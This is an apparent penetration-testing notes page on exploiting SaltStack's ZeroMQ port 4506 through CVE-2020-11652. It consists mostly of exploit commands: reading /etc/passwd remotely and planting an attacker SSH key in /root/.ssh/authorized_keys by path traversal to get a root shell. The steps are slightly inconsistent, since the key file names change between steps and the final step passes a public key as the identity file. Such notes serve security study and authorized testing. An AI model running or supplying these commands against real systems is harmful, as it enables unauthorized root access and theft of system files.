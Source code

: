 ```yaml
---
title: ZeroMQ - 4506
layout: default
nav_order: 11
parent: Active Recon

---
```


# ZeroMQ Enumeration
{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### CVE-2020-11652
SaltStack Exploit (Remote Code Execution) 

* https://github.com/Al1ex/CVE-2020-11652
* https://thehackernews.com/2020/05/saltstack-rce-vulnerability.html

#### Reading /etc/passwd file
```bash
python3 CVE-2020-11652.py -m $IP -p 4506 -lh 4444 --read /etc/passwd
```
#### SSH key / authorized_keys transfer
1. Create SSH public key: 
```bash
ssh-keygen
```

2. Take SSH public key and transfer to a file called `authorized_keys` 
```bash
echo example.pub > authorized_keys
```

3. Transfer `authorized_keys` to the target
```bash
python3 exploit.py -m $IP -p 4506 --upload-src ~/.ssh/redis.pub --upload-dest ../../../../../../root/.ssh/authorized_keys
```

4. SSH into the target with the created public SSH key
```bash
ssh -i ~/.ssh/example.pub root@$IP
```

5. Should be able to obtain root shell